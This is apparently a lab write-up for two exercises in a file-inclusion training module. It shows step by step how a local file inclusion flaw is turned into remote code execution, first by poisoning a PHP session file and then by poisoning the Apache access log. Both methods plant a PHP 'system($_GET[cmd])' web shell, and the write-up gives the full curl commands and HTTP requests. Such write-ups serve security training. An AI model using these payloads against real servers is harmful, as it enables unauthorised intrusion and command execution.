







## Exercises

### Question 1 — Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd

Checked the current `PHPSESSID` cookie value using Cookie-Editor:



Included the matching session file through the LFI vulnerability:

```
http://154.57.164.80:43441/index.php?language=/var/lib/php/sessions/sess_pl1aa9lc08k3hj7tpdknjkvs0g
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s "http://154.57.164.80:43441/index.php?language=/var/lib/php/sessions/sess_pl1aa9lc08k3hj7tpdknjkvs0g" | grep -i container -A 1

            <h2>Containers</h2>
            selected_language|s:53:"/var/lib/php/sessions/sess_pl1aa9lc08k3hj7tpdknjkvs0g";preference|s:7:"Spanish";            <p class="read-more">
            —SNIP—
```

**Breakdown:**

- `language=/var/lib/php/sessions/sess_pl1aa9lc08k3hj7tpdknjkvs0g` includes the session file matching the current `PHPSESSID` cookie
- `| grep -i container -A 1` filters the response down to the `Containers` heading and the line after it, where the session file's contents render

The session data showed `selected_language` holding the last `language` value used — confirming that field is attacker-controlled through the parameter.

Confirmed control by setting a custom value:

```
http://154.57.164.80:43441/index.php?language=session_poisoning
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s "http://154.57.164.80:43441/index.php?language=/var/lib/php/sessions/sess_pl1aa9lc08k3hj7tpdknjkvs0g" | grep -i container -A 1

            <h2>Containers</h2>
            selected_language|s:17:"session_poisoning";preference|s:7:"Spanish";            <p class="read-more">
            —SNIP—
```

`selected_language` now held `session_poisoning`, confirming the value is fully controllable. Poisoned the session with a URL-encoded PHP web shell:

```
http://154.57.164.80:43441/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%20%3F%3E
```

**Breakdown:**

- `%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%20%3F%3E` is the URL-encoded form of `<?php system($_GET["cmd"]) ?>`, written directly into the `selected_language` session field on inclusion

Included the poisoned session file with the target command:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s "http://154.57.164.80:43441/index.php?language=/var/lib/php/sessions/sess_pl1aa9lc08k3hj7tpdknjkvs0g&cmd=pwd" | grep -i container -A 1 -m 1

            <h2>Containers</h2>
            selected_language|s:29:"—REDACTED—
```

**Breakdown:**

- `&cmd=pwd` the command passed to the now-executing web shell embedded in the session file
- `-m 1` limits `grep` to the first match, since `pwd` output has no trailing newline and would otherwise run into the next grepped section

**Answer:** `—REDACTED—`

### Question 2 — Try to use a different technique to gain RCE and read the flag at /

> **Note:** Resettled the target due to some difficulties, so the IP and port are different.

Switched to server log poisoning. Confirmed the Apache access log was readable through the LFI vulnerability:

```
http://154.57.164.66:35081/index.php?language=/var/log/apache2/access.log
```



Poisoned the log using Burp Repeater, setting the `User-Agent` header to a PHP web shell:

```
GET /index.php?language=/var/log/apache2/access.log HTTP/1.1
Host: 154.57.164.66:35081
User-Agent: <?php system($_GET['cmd']); ?>
```





Re-included the log and passed a test command:

```
GET /index.php?language=/var/log/apache2/access.log&cmd=id HTTP/1.1
Host: 154.57.164.66:35081
User-Agent: <?php system($_GET['cmd']); ?>
```



RCE confirmed. Searched the filesystem root for the flag:

```
GET /index.php?language=/var/log/apache2/access.log&cmd=ls%20%2F HTTP/1.1
Host: 154.57.164.66:35081
User-Agent: <?php system($_GET['cmd']); ?>
```



Found `/c85ee5082f4c723ace6c0796e3a3db09.txt`. Read it:

```
GET /index.php?language=/var/log/apache2/access.log&cmd=cat%20%2Fc85ee5082f4c723ace6c0796e3a3db09.txt HTTP/1.1
Host: 154.57.164.66:35081
User-Agent: <?php system($_GET['cmd']); ?>
```



**Answer:** `—REDACTED—`